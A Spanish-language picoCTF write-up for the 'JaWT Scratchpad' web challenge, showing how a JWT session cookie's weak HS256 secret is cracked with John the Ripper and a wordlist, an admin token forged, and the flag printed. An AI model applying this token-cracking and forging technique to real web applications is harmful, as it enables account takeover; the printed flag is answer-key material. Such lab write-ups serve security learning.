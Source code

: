 # JaWT Scratchpad

## Objetivo

Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/61864/` or <http://jupiter.challenges.picoctf.org:61864>

## Solución

Se visita pagina con la direccion adjunta, se observa una pagina en la que si nos registramos se observa:

![img-login_jawt](img-login_jawt.png)

Se inspeccionan las cockies con la extencion del navegador *Cockie Editor*, y se obtiene:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.-vh-85mhRjMzTUsaJEWhgJwu-_EzDOy8zI0a9dik2Ww
```

Se guarda en un archivo

```bash
hone@Unidad03:/tmp$ echo eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.-vh-85mhRjMzTUsaJEWhgJwu-_EzDOy8zI0a9dik2Ww > token
```

Es necesario modificar la cockie con la ayuda de un desincriptador, pero es necesario obtener la *VERIFY SIGNATURE*, para eso es necesario hacerlo de la siguiente manera:

```bash
hone@Unidad03:/tmp$ john token -w ~/usr/share/wordlists/rockyou.txt
ilovepico
```

Despues cambiamos el usuario y el *VERIFY SIGNATURE* de la siguiente manera:

![img-arreglado](img-arreglado.png)

En seguida se copia, pega y guarda el tocken generado con la ayuda de *Cockie Editor*

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s
```

Al recargar se obtiene la bandera

![img-bandera_jawt](img-bandera_jawt.png)

Bandera: *picoCTF{jawt_was_just_what_you_thought_1ca14548}

## Referencias

<https://es.wikipedia.org/wiki/JSON_Web_Token>

<https://jwt.io/>

